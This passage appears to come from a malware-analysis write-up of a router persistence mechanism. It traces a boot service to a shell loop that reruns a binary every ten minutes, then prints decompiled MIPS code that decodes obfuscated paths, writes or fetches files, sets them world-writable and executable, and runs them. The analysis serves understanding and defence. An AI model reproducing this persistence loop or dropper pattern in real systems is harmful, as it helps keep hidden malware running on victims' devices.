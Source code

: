 Per the [Documentation]() this is a simple service managing script that defines a service with its necessary parameters and options. This service executes `/sbin/zombie_runner` on boot. (We know this service is enabled because the symlink exists in `/etc/rc.d`)

Now let's take a look at `/sbin/zombie_runner`:

```sh
#!/bin/sh

while [ 1 ]; do
    /usr/bin/dead-reanimation
    sleep 600
done

exit 0
```

A simple runner script that executes `/usr/bin/dead-reanimation` every 10 minutes.

```sh
$ file dead-reanimation

dead-reanimation: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel-sf.so.1, no section header
```

A binary for the `MIPS` architecture (this was already known from the CPU type: `mt7621`), let's decompile it in Ghidra:

```C
int main() {
    //[...REDACTED...]
    local_b0 = 0x9a6f65f0;
    local_ac = 0xadf4e47e;
    local_a8 = 0x4e937069;
    local_a4 = 0x8ec5e155;
    local_a0 = 0x3af55fc1;
    local_9c = 0;
    local_98 = 0x9a6f65f0;
    local_94 = 0xadf4f27e;
    local_90 = 0x4a8c4663;
    local_8c = 0x9082ea40;
    local_88 = 200;

    memcpy(acStack_84,&DAT_00400f74,0x3f);
    memcpy(acStack_44,&DAT_00400fb4,0x3c);

    FUN_00400c04((char *)&local_b0);
    FUN_00400c04((char *)&local_98);
    FUN_00400c04(acStack_84);
    FUN_00400c04(acStack_44);

    iVar1 = access((char *)&local_b0,0);
    if (iVar1 == -1) {
        FUN_00400b20(acStack_84,(char *)&local_b0);
        chmod((char *)&local_b0,0x1ff);
    }

    iVar1 = access((char *)&local_98,0);
    if (iVar1 == -1) {
        FUN_00400b20(acStack_44,(char *)&local_98);
        chmod((char *)&local_98,0x1ff);
    }

    system((char *)&local_98);
    system((char *)&local_b0);
    return 0;
```